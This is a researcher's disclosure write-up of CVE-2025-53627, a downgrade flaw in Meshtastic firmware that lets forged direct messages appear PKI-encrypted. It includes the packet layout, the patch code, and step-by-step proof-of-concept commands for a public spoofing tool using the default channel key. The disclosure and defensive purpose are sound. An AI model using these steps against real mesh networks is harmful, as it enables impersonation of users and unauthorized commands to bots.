

# CVE-2025-53627 :: Fallback to legacy symmetric encryption in Meshtastic firmware enables downgrade attack and spoofing of direct messages 
During recent research into Meshtastic networks, **[randshell](https://github.com/randshell) and I identified a vulnerability in the Meshtastic firmware** that allows crafted messages to appear as PKI-encrypted direct messages under certain conditions (**[CVE-2025-53627](https://www.cve.org/CVERecord?id=CVE-2025-53627)**).

[Meshtastic](https://github.com/meshtastic/firmware) is a widely used open-source mesh networking platform built around LoRa and MQTT, commonly deployed for off-grid, community communications and even [military operations](https://calderon.cud.uvigo.es/items/5120b2dc-7490-4045-a62e-b633f89aadbd). With the introduction of public-key cryptography (PKI) for direct messages in version 2.5, Meshtastic took an important step toward improving message confidentiality and authenticity.

<div align=center>
   
</div>

<div align=center>
   <i>Figure 1: A solar Meshtastic node for off-grid comms.</i>
</div>


## Core Issue

The vulnerability originates from how Meshtastic handles **direct message decryption and compatibility fallback**:

1. When a node receives a direct message, it first attempts to decrypt it with **PKI**, using it's private key and the alleged sender node's public key for signature checking.
2. If it fails, the firmware **falls back to legacy symmetric channel encryption**.
3. The client UI (base, mobile, web, etc.) does not reliably distinguish whether a message was actually decrypted via PKI or accepted via the fallback path.

This creates a downgrade opportunity where **a legacy-encrypted message can be accepted and displayed as if it were a PKI-encrypted direct message**, even though no asymmetric encryption was involved.

If an attacker knows a shared channel key (which is common on public or default channels) it can inject messages that appear to come from another node and appear to be encrypted with PKI, enabling DM spoofing attacks via cryptographic downgrade. Such a MeshPacket and decoded Data, for default LongFast channel, looks something like this:

```
MeshPacket {
  from: <spoofed from node number>
  to: <to node number>
  channel: 8
  encrypted: <encrypted Data protobuf with shared AES key AQ==>
  id: <packet ID>
  hop_limit: 3
  want_ack: true
  hop_start: 3
}
Data {
    portnum: TEXT_MESSAGE_APP
    payload: <spoofed message>
    bitfield: 1
}
```

The function in charge of decoding and decryption, `perhapsDecode`, now includes a conditional that breaks downgrade as follows:
```cpp
// ...
DecodeState perhapsDecode(meshtastic_MeshPacket *p)
{
// PKI decryption here
// Start AES decryption
// ...
    } else if (!owner.is_licensed && isToUs(p) && decodedtmp.portnum == meshtastic_PortNum_TEXT_MESSAGE_APP) {
        LOG_WARN("Rejecting legacy DM");
        return DecodeState::DECODE_FAILURE;
// ...
// End AES decryption
}
```

This effectively drops packets that are sent to the node's address and were not decrypted with PKI.

## Proof of Concept: Spoofed Direct Messages

To demonstrate the issue in a reproducible and practical way, I've developed a proof-of-concept tool:

**[https://github.com/0wulf/spooftastic_cli](https://github.com/0wulf/spooftastic_cli)**

This tool allows an attacker to craft and inject spoofed text messages over MQTT that are accepted by victim nodes and displayed as legitimate direct messages.

Below is the exact exploitation flow we used.


### PoC Setup

First, clone the repository:

```bash
git clone https://github.com/0wulf/spooftastic_cli
cd spooftastic_cli
```

#### Configure the environment:

1. Copy the example configuration:

   ```bash
   cp .env.example .env
   ```
2. Edit `.env` and update the values for your MQTT broker, credentials, and Meshtastic network.

#### Create a Python virtual environment and install dependencies:

```bash
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

### Exploitation Scenario

For this example:

* **Spoofed node:** `!abcd1234`
* **Victim node:** `!1234abcd`
* **Channel:** `LongFast`
* **Channel key:** `AQ==` (default key)

The attacker sends a crafted direct message that intentionally triggers the legacy decryption fallback.

### Exploitation Command

```bash
python spooftastic.py send \
  --from-node '!abcd1234' \
  --gateway-node '!deadbeef' \
  --to-node '!1234abcd' \
  message \
  --message 'Sp00f3d'
```

When executed, this command injects a message that the victim node accepts and displays as a direct message, despite it not being encrypted with the victim’s public key. 
<div align=center>
   
</div>

<div align=center>
   <i>Figure 2: Spoofed message through the Base UI.</i>
</div>
   
<div align=center>
   
</div>

<div align=center>
   <i>Figure 3: Spoofed message through Web Client marked as secure.</i>
</div>

## Why is this important?
- An attacker could inject a malicious text message (e.g. containing a malicious URL) and the victim wouldn't notice the packet was not sent by the alleged `from` address.
- Bots and BBS (Bulletin Board) systems tend to rely on text messages and DMs for commands. This attack can be leveraged for unauthorized command execution.

## Call to Action
Meshtastic firmware [version 2.7.15.567b8ea](https://github.com/meshtastic/firmware/releases/tag/v2.7.15.567b8ea) drops legacy encryption, fixing the issue. It's advised to update your devices.

## Coordinated Disclosure

This vulnerability was **responsibly disclosed to the Meshtastic maintainers** prior to public release. We worked directly with the Meshtastic team to validate the issue, discuss its impact, and allow time for investigation and remediation before publishing the CVE and proof of concept.

I would like to thank [randshell](https://github.com/randshell) as well as the [Meshtastic team](https://github.com/orgs/meshtastic/people) for their **professionalism, responsiveness, and collaborative handling** of the disclosure.

## References
[1] [Meshatstic Security Advisory](https://github.com/meshtastic/firmware/security/advisories/GHSA-377p-prwp-4hwf)

[2] [CVE Record](https://www.cve.org/CVERecord?id=CVE-2025-53627)

[3] [Spooftastic CLI PoC Tools](https://github.com/0wulf/spooftastic_cli)

[4] [Patch Diff](https://github.com/meshtastic/firmware/commit/69db3bd11c999d27e25a65fd258113f69ab11fea)
